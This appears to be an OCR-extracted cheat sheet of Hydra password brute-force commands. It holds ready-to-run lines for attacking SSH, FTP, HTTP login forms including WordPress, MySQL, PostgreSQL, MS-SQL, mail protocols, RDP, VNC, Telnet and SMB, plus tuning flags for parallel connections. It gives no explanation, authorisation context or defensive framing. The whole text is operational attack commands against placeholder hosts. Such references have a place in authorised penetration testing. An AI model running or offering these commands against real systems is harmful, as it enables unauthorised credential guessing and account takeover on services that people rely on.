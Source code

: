 ```bash
hydra -L users.txt -P passwords.txt mysql://192.168.1.1

# SSH attacks
hydra -l root -P passwords.txt ssh://192.168.1.1
hydra -l admin -P passwords.txt -s 2222 ssh://192.168.1.1  # Custom port
hydra -L users.txt -P passwords.txt -t 4 ssh://192.168.1.1 # 4 parallel tasks

# FTP attacks
hydra -l admin -P passwords.txt ftp://192.168.1.1
hydra -L users.txt -p password123 ftp://192.168.1.1

# HTTP/HTTPS attacks
# HTTP Basic Auth
hydra -l admin -P passwords.txt 192.168.1.1 http-get /admin

# HTTP POST form
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"

# HTTPS POST
hydra -l admin -P passwords.txt -s 443 192.168.1.1 https-post-form "/login:username=^USER^&password=^PASS^:F=Login failed"

# WordPress
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect"

# Database attacks
# MySQL
hydra -l root -P passwords.txt mysql://192.168.1.1

# PostgreSQL
hydra -l postgres -P passwords.txt postgres://192.168.1.1

# MS-SQL
hydra -l sa -P passwords.txt mssql://192.168.1.1

# Email protocols
# SMTP
hydra -l user@example.com -P passwords.txt smtp://mail.example.com

# POP3
hydra -l user -P passwords.txt pop3://mail.example.com

# IMAP
hydra -l user -P passwords.txt imap://mail.example.com

# Remote access
# RDP (Remote Desktop)
hydra -l Administrator -P passwords.txt rdp://192.168.1.1

# VNC
hydra -P passwords.txt vnc://192.168.1.1

# Telnet
hydra -l admin -P passwords.txt telnet://192.168.1.1

# SMB/Windows shares
hydra -l administrator -P passwords.txt smb://192.168.1.1

# Performance tuning
hydra -l admin -P passwords.txt -t 16 ssh://192.168.1.1   # 16 parallel connections
hydra -l admin -P passwords.txt -t 4 -w 30 ssh://192.168.1.1  # 30 sec timeout
```